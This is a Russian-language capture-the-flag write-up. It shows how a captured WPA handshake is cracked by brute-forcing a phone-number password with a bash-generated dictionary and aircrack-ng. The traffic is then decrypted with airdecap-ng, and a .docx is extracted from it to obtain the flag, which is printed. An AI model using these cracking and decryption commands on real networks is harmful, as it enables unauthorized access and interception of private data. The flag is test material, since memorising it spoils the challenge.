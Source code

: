 # Случай в парикмахерской: Write-up

Подслушанное _кое-что ещё_ — ни что иное как перехват данных, звучавших в эфире вайфай-сети.

Из легенды и обрывков речи мы знаем, что её пароль — номер городского телефона в Липецке, записанный, начиная с восьмёрки, после которой следует код города (номер без кода был бы слишком коротким для пароля — 6 символов при минимальных 8). Иначе говоря, пароль имеет вид `84742??????`. Неизвестны 6 цифр, это всего миллион вариантов.

Для анализа трафика беспроводных сетей существует набор утилит под общим названием _aircrack-ng_. Главная из них, собственно _aircrack-ng_, позволяет при наличии перехваченной сессии аутентификации («четырёхстороннее рукопожатие» по протоколу EAPOL) перебирать возможные пароли со скоростью порядка нескольких тысяч вариантов в секунду (то есть нескольких миллионов в час). Мало-мальски хорошо защищённую сеть так не сломать, однако совсем уж ненадёжный — или известный частично — пароль таким образом вполне можно подобрать.

Создадим словарь возможных вариантов и запустим перебор (выберем ту сеть, для которой у нас есть все данные).

```bash
$ for i in {84742000000..84742999999}; do echo $i >> phones.dict; done
$ aircrack-ng -w phones.dict *.cap

      [00:03:04] 769112/1000000 keys tested (4247.36 k/s) 

      Time left: 54 seconds                                     76.91%

                          KEY FOUND! [ 84742723793 ]


      Master Key     : 02 4D 38 20 4B 64 22 D5 0B 0B 79 F2 93 41 0E 66 
                       3B 9A 57 64 26 E1 68 9E A5 38 9E 0B 6D 2F 4E 44 

      Transient Key  : 33 D5 DB 7E D7 4A C7 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C0 01 02 98 FF 24 53 FD A0 8E 33 8A F7 54 C5 2F 
```

Ближе к концу перебор нашёл пароль — `84742723793`. Что теперь? Оказывается, зная пароль сети и умудрившись перехватить криптографический обмен, можно расшифровать трафик! Сделать это позволит входящая в тот же набор утилита _airdecap-ng_. Укажем ей известный нам теперь пароль, а также идентификаторы точки доступа.

```bash
$ airdecap-ng -p 84742723793 -b 10:62:EB:8D:2C:A5 -e DIR-825 *.cap
Total number of stations seen            2
Total number of packets read          6381
Total number of WEP data packets         0
Total number of WPA data packets      2596
Number of plaintext data packets         1
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets      2572
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0
```

Рядом появится ещё один .cap-файл с уже расшифрованными пакетами. Откроем его через wireshark.

Среди кучи служебного трафика, а также трафика по https, который не расшифровать никак, видим общение с неким весьма липецко-школьным на вид сайтом. Находим POST-запрос, в котором на сайт отправляется документ формата .docx. Извлекаем содержимое файла из соответствующего TCP-потока, отрезаем HTTP-заголовки и иную лишнюю информацию, открываем документ — и читаем реферат про флаг России, в котором можно заодно узнать флаг, интересующий нас в задании.

Флаг: **ugra_cracking_be_in_the_air_tonight_f7ec913ae430**
